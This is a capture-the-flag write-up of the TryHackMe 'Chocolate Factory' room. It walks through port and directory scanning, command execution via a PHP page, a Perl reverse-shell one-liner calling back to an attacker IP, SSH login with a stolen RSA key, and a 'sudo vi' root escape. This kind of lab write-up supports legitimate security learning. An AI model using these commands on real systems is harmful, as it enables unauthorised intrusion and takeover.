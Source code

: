 ```yaml
---
title: TryHackMe Chocolate Factory
layout: post
categories:
- TryHackMe
tag: ctf, privesc, stego
image: "/assets/img/chocolate-factory.jpeg"
image_alt: chocolate-factory
---
```


A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

<br>

## 1. Introduction     

Welcome to Willy Wonka's Chocolate Factory!

![golden-ticket](/assets/img/tryhackme/chocolate-factory/golden-ticket.jpg)

This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa

This is a beginner friendly room!

If you have any issues / queries you can reach us through Discord or Twitter.

( Created by AndyInfosec team for the community! )

<br>


## 2. Challenges 

<br>


### 2.1 Enter the key you found!

Let's do a nmap scan.

```
$ nmap -sSV 10.10.153.7
```

![nmap](/assets/img/tryhackme/chocolate-factory/nmap.png)

A lot of ports are open.  

Let's visit the website running on `80/tcp` port. 

![home](/assets/img/tryhackme/chocolate-factory/home.png)

I see a login page. Let’s do a gobuster scan.

```
$ gobuster dir -u http://10.10.153.7/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,txt
```

![gobuster](/assets/img/tryhackme/chocolate-factory/gobuster.png)

We found a few php files. First, let's look at `home.php`.

![php](/assets/img/tryhackme/chocolate-factory/php.png)

We can run commands on this page. Let's connect with burp suite. Capture the page and send it to the repeater.

![ls](/assets/img/tryhackme/chocolate-factory/ls.png)

Let's look at the files in the directory in order, of what we will find.

 - _**`index.php.bak`**_ 

    I don't see anything significant here.

    ![bak](/assets/img/tryhackme/chocolate-factory/bak.png)

 - _**`key_rev_key`**_ 

    This file is probably a script because the cat command doesn't work.

    ![key-rev-key](/assets/img/tryhackme/chocolate-factory/key-rev-key.png)
    
    Let's back to the website and download the key-rev-key file. [http://10.10.153.7/key_rev_key](http://10.10.153.7/key_rev_key)

    ![cat](/assets/img/tryhackme/chocolate-factory/cat.png)

    Let's try. 

    ```
    $ chmod +x key_rev_key
    $ ./key_rev_key 
    ```

    ![try](/assets/img/tryhackme/chocolate-factory/try.png)

    ```
    $ strings key_rev_key
    ```

    ![strings](/assets/img/tryhackme/chocolate-factory/strings.png)

    Let's try the name `laksdhfas`.

    ![key](/assets/img/tryhackme/chocolate-factory/key.png)

 - _**`validate.php`**_ 

    We found the username and password for the website. 
    
    ![validate](/assets/img/tryhackme/chocolate-factory/validate.png)


<br>

### 2.2 What is Charlie's password?

**`Answer: c*****`**

<br>

### 2.3 Change user to charlie

Now, we can execute a reverse-shell command on home.php. First, let's go to the [pentestmonkey's cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). You can try all of them. 

Perl, python, and netcat are working.

![shell](/assets/img/tryhackme/chocolate-factory/shell.png)

```
perl -e 'use Socket;$i="10.8.86.168";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

First, let's setup a netcat listener. 

```
$ nc -nlvp 4444
```

After copying and pasting. 

![reverse](/assets/img/tryhackme/chocolate-factory/reverse.png)

We are inside.

![inside-first](/assets/img/tryhackme/chocolate-factory/inside-first.png)

Now, we can change the user to charlie.

We found a RSA key in charlie's directory

```
$ cat /home/charlie/teleport
```

![rsa](/assets/img/tryhackme/chocolate-factory/rsa.png)

Let's connect to charlie ssh.

First, create an id_rsa file on your own machine and copy rsa key on the target machine, and paste it into the id_rsa file.

```
$ chmod +x id_rsa
$ ssh -i id_rsa charlie@10.10.153.7
```

![ssh](/assets/img/tryhackme/chocolate-factory/ssh.png)

And we are inside.

<br>

### 2.4 Enter the user flag

Now, let's get the user flag.

![user-flag](/assets/img/tryhackme/chocolate-factory/user-flag.png)

<br>

### 2.5 Enter the root flag

Now, we checking the sudo privileges.

```
$ sudo -l
```

![sudo-l](/assets/img/tryhackme/chocolate-factory/sudo-l.png)

We can get root privileges using vi. I'm going to [gtfobins](https://gtfobins.github.io/gtfobins/vi/) and see what I can do with vi. 

![gtfobins](/assets/img/tryhackme/chocolate-factory/gtfobins.png)

Now, we can root privilege using this command.

```
sudo vi -c ':!/bin/sh' /dev/null
``` 

![privesc](/assets/img/tryhackme/chocolate-factory/privesc.png)

We are inside. Let's get the root flag.

![root-flag](/assets/img/tryhackme/chocolate-factory/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
